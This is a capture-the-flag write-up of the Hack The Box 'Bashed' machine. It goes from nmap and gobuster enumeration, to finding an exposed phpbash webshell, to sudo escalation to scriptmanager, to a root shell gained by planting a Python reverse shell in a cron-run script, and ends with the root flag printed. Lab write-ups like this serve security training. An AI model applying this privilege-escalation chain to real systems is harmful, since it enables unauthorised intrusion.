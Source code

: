 # Bashed
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following
```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-19 10:12 CET
Nmap scan report for 10.10.10.68
Host is up (0.040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```
Here we can see that the running operating system is Ubuntu.  
Since this is the only port available let's dig deeper into it.  
Lets' start by poking around, when we hit the site we see a page containing:  
*phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!*  
So, it seems like the creator of this box already uploaded a webshell for us, all we need to do is actually the location of this shell.
So, let's try to enumerate port 80 with gobuster and examine the results.   
```
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/server-status        (Status: 403) [Size: 299]
```
If we visit the [Arrexel GitHub Repo](https://github.com/Arrexel/phpbash) (URL disclosed inside the site), we can see that this webshell is called phpbash.php.  
So, let's go through all this directory and see where phpbash.php is located.  
as we can easilly discover phpbash is available by hitting http://10.10.10.68/dev/phpbash.php.  
Now we have accesso to this box as www-data.

## User
Now that we are logged in as www-data, we can quickly check our capabilities.
First thing first, let's enumerate sudo.
```
www-data@bashed:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
Now we can easily escalate to scriptmanager and see if we can escalate privileges from there.
```
www-data@bashed:/var/www/html/uploads$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/uploads$
```

## Root
Now, since the name of this user seems to refer to a scripting user, let's find files owned by him.
```
scriptmanager@bashed:/var/www/html/uploads$ find / -user scriptmanager | grep -v proc                                      
find: /scripts                                      
/scripts/test.py                                          
'/root': Permission denied                          
find: /home/scriptmanager                           
/home/scriptmanager/.profile                        
/home/scriptmanager/.bashrc                         
/home/scriptmanager/.nano                           
/home/scriptmanager/.bash_history                   
/home/scriptmanager/.bash_logout
```
Now, if we switch to /scripts directory we can see a simple script ```test.py``` that write text to ```test.txt```.  
Now, if we inspect dates/permissions with a simple ls, we can see the following:
```
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Nov 19 01:47 test.txt
```
the file test.txt gets written every one minute and the owner/groop is root:root, so we can suppose that there is a cronjob that is writing test.txt each minute.  
If we edit test.py, we can set a python reverse shell, open a listener on our local machine and wait for the shell to pop up.  
```
root@kali:~/Documents/HTB/Boxes/Bashed# nc -lvnp 8083
listening on [any] 8083 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.68] 55988
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```
